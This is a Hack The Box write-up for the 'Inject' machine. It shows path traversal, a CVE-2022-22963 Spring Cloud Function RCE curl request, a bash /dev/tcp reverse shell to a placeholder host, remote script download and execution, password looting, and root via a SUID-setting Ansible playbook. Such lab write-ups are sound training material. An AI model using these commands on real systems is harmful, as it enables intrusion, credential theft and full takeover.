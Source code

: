 # Hack the Box Inject 
3/13/2023

Target Machine IP: 10.10.11.204

## Recon

To start I began by running Nmap agains the machine with the -A ( to enable OS and version detection, script scanning, and traceroute) and -T4 (faster execution) flags
`nmap -A -T4 10.10.11.204`

I got the following results from my scan:
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ca:f1:0c:51:5a:59:62:77:f0:a8:0c:5c:7c:8d:da:f8 (RSA)
|   256 d5:1c:81:c9:7b:07:6b:1c:c1:b4:29:25:4b:52:21:9f (ECDSA)
|_  256 db:1d:8c:eb:94:72:b0:d3:ed:44:b9:6c:93:a7:f9:1d (ED25519)
8080/tcp open  nagios-nsca Nagios NSCA
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Lets start by examining port 8080. We can see that it is hosting some http appliction. I visited the site in my browser to confirm. 
[image](images/site.png)

I  ran a dirb scan to identify more directories
`dirb http://10.10.11.204:8080`
I got the following result:
--- Scanning URL: http://10.10.11.204:8080/ ----
+ http://10.10.11.204:8080/blogs (CODE:200|SIZE:5371)                                                                           
+ http://10.10.11.204:8080/environment (CODE:500|SIZE:712)                                                                      
+ http://10.10.11.204:8080/error (CODE:500|SIZE:106)                                                                            
+ http://10.10.11.204:8080/register (CODE:200|SIZE:5654)                                                                        
+ http://10.10.11.204:8080/upload (CODE:200|SIZE:1857)

I found an interesting page  http://10.10.11.204:8080/upload
[image](images/upload.png)

This page lets you upload an image and then see the image you uploaded. The URL for the uploaded image is http://10.10.11.204:8080/show_image?img=YOUR_IMAGE_FILE  

I noticed if the file was not there you get an HTTP error so I tried to use curl to get more in depth results. 
`curl --output - http://10.10.11.204:8080/show_image?img=none`
{"timestamp":"2023-03-13T14:31:58.373+00:00","status":500,"error":"Internal Server Error","message":"URL [file:/var/www/WebApp/src/main/uploads/none] cannot be resolved in the file system for checking its content length","path":"/show_image"} 

In the result I notice that the full file path was listed file:/var/www/WebApp/src/main/uploads/none. I decided to try other possible paths.
`curl --output - http://10.10.11.204:8080/show_image?img=../`
This listed the files in the directory uploads
[image](images/directoryList.png)

I used this to explore until I found /var/www/WebApp/pom.xml. 
`curl --output - http://10.10.11.204:8080/show_image?img=../../../pom.xml` `
This gave back an xml file with the configurations for the server. Here we can see it is using Java 11 and the Spring Framework. Googling the dependencies we can see that org.springframework.cloud version 3.2.2 is vulnerable (CVE-2022-22963). 
[image](images/springfw.png)

A github page showing how this can be exploited can be found here https://github.com/me2nuk/CVE-2022-22963.

According to the page we need to run:
`curl -X POST  http://10.10.11.204:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("touch /tmp/pwned")' --data-raw 'data' -v`
[image](images/touchRCE.png)
If the server is vulnerable we should be able to find a new file in /tmp/ called pwned. I ran the command and then ran `curl --output - http://10.10.11.204:8080/show_image?img=../../../../../../tmp/` to verify the file 
[image](images/verifyRCE.png)

Since the file is there we know that this Remote Code Execution works. So lets set up a reverse shell. 

## User Flag

First I created a file called rev.sh (`nano rev.sh`) with the following code. This is the shell we are going to upload on our target. 
`#!/bin/bash'
`bash -i >& /dev/tcp/YOUR_IP/4444 0>&1`
[image](images/revsh.png)

Next I started a python http server to host our file:
`python3 -m http.server 80`

In a seperate terminal tab I started Netcat:
`nc -lvnp 4444`

I then had the target download rev.sh from our python server using our RCE and having the target use curl:
`curl -X POST  http://10.10.11.204:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("curl YOUR_IP/rev.sh -o /tmp/rev")' --data-raw 'data' -v`
[image](images/downloadRCE.png)
I then executed rev.sh on the target using our RCE:
[image](images/executeRCE.png)

In the netcat terminal tab I now have an active shell: 
[image](images/frank.png)

In the /home directory we see two users frank and phil. In phil's home directory we can see the flag User.txt but we cannot open it so we need to swith users to phil. Looking through franks home directory we find .m2/settings.xml. When we read settings.xml we can see phil's password.
[image](images/settingsxml.png)

We can now switch users to become phil
`su phil`
[image](images/philPass.png)

We can get a more stable shell using:
`python3 -c 'import pty;pty.spawn("/bin/bash")'`
[image](images/upgradeShell.png)
We can now read the user.txt file in phil's home directory:
[image](images/user.png)

## System Flag

Now that we have the user flag we need to escalate to root and get the root flag. We can run linpeas (https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) to scan the server for vulnerablitites.
First I downloaded a copy linpeas to my localmachine:
`curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh`

I still had the python webserver running but if I did not I would have needed to run:
`python3 -m http.server 80`

On the taget machine I ran:
`curl YOUR_IP/linpeas.sh | sh`
[image](images/linpeas.png)

This started running linpeas. From this tool we can find that it is running Ansible Playbook.
**[image](images/ap.png)

Googleing I found this blog artical detailing how to exploit Ansible to gain root access https://rioasmara.com/2022/03/21/ansible-playbook-weaponization/

First on our machine we need to create a .yml file with the mallcious tasks. I called this file pb.yml. In this file we need the following yaml:

-hosts: localhost
  tasks:
	-name: "whatever"
      shell: "chmod +s /bin/bash"
      become: true
[image](images/yml.png)
`chmod +s /bin/bash`  will allow phil to run bash as a super user.

Next we need to put this file in the target machines /opt/automation/tasks/ directory.
As phil I cd into that directory (`cd /opt/automation/tasks/`). Then we can use our python sever again to download the file.
`wget YOUR_IP/pb.yml`
[image](images/wget.png)

We now need to wait a few minutes for Ansible Playbook to run its automation tasks. After a few minutes have gone by you can run `bash -p` to elevate your shell.

Now we can cd into /root and read root.txt
[image](images/root.png)

